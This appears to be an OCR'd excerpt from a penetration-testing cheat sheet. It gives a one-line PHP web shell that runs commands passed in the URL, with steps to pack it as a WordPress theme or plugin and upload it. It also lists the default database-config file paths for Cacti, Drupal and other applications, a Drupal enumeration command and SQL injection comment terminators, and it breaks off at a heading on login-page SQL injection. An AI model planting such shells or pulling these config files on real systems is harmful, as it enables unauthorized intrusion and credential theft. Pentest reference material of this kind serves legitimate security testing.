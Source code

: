 &lt;?php system\($\_GET\['cmd'\]\) ?&gt;

zip -r wpx.zip wpx

upload wpx.zip via web interface as an installed theme

**Command execution access is via:**

&lt;web-app-path&gt;/wp-content/plugins/wpx/cmd.php?cmd=&lt;command\(s\)&gt;

Older WP: Webshells can be added by editing exiting files/themes via the web interface or by enabling file upload and permitting the valid file extension \(e.g. .php\)

**Cacti**

Cacti default database configuration filename

&lt;web-app-path&gt;/include/config.php

**DeV!L\`z ClanPortal**

DeV!L\`z ClanPortal default database configuration filename

&lt;web-app-path&gt;/inc/mysql.php

**Drupal**

Drupal default database configuration filename

&lt;web-app-path&gt;/sites/default/settings.php

Scanning Drupal for plugins and versions

/pentest/enumeration/web/cms-explorer  -url &lt;target-and-drupal-path&gt; -type drupal

**PHPMyAdmin**

/phpmyadmin/changelog.php

**Timeclock**

Timeclock default database configuration filename

&lt;web-app-path&gt;/db.php

Default files to check for additional paths

lt;target-webpath&gt;/robots.txt

lt;target-webpath&gt;/style.css

---

**SQL Terminators/Comments**

MSSQL and MySQL:

&lt;sql injected command&gt;;--

MySQL:

&lt;sql injected command&gt;;\#

**Login Pages Basic SQL injection**

